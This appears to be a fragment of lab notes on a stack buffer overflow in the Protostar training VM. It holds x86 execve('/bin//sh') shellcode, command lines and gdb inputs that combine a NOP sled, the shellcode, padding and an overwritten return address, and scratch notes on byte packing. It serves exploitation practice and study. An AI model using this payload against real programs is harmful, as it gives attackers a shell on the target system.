 ```asm
(*(void(*)()) shellcode)();
return 0;
}

Payload:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```
./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\x20\xce\xff\xff"')

./vuln $(python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*47 + "\x20\xce\xff\xff"')
 
 (gdb) shell python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*3 +"B"*4*2 + "\x20\xce\xff\xff"' > /home/user/input
(gdb) run

(gdb) shell python -c 'print "\x90"*32 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*3 +"B"*4*4 + "\x90\xf7\xff\xbf"' > /home/user/input
```

Notes:
* [Shellcode Explanation](https://dhavalkapil.com/blogs/Shellcode-Injection/)
* [Shellcode](http://shell-storm.org/shellcode/files/shellcode-827.php)
* \x90 stands for `nops` in hex

## Scratch Notes

```
user@protostar:~$ python -c 'import struct; p = struct.pack(">I", 0x12345678); print("\x42"*4 + p)' | hexdump -C
00000000  42 42 42 42 12 34 56 78  0a                       |BBBB.4Vx.|
00000009
user@protostar:~$ python -c 'import struct; p = struct.pack(">I", 0x12345678); print("\xCC"*4 + p)' | hexdump -C
00000000  cc cc cc cc 12 34 56 78  0a                       |.....4Vx.|
00000009
user@protostar:~$ python -c 'import struct; p = struct.pack("I", 0x12345678); print("\xCC"*4 + p)' | hexdump -C
00000000  cc cc cc cc 78 56 34 12  0a                       |....xV4..|
00000009
user@protostar:~$ python -c 'import struct; p = struct.pack("<I", 0x12345678); print("\xCC"*4 + p)' | hexdump -C
00000000  cc cc cc cc 78 56 34 12  0a                       |....xV4..|
00000009
user@protostar:~$ python -c 'import struct; p = struct.pack("I", 0x12345678); print("\xCC"*4 + p)' | hexdump -C
00000000  cc cc cc cc 78 56 34 12  0a                       |....xV4..|
00000009
```
